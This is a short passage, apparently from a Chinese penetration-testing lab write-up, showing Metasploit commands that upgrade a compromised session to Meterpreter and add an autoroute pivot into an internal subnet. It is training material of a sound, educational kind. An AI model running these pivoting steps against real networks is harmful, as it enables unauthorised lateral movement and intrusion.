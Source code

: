![exploit](img/exploit.png)

#### 攻破靶标2-4

- 通过已攻破的主机寻找该靶机所在网段的其他主机，使用 MSF 中自带的路由转发功能，在已经获取的 meterpreter shell 的基础上添加一条去往“内网”的路由。

将已经获得的1号会话即外层主机shell升级为`meterpreter`。

```
# upgrade cmdshell to meterpreter shell
sessions -u 1
```

![sessions-u](img/sessions-u.png)

```
# 进入 meterpreter 会话 2
sessions -i 2

run autoroute -s 192.170.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p
```
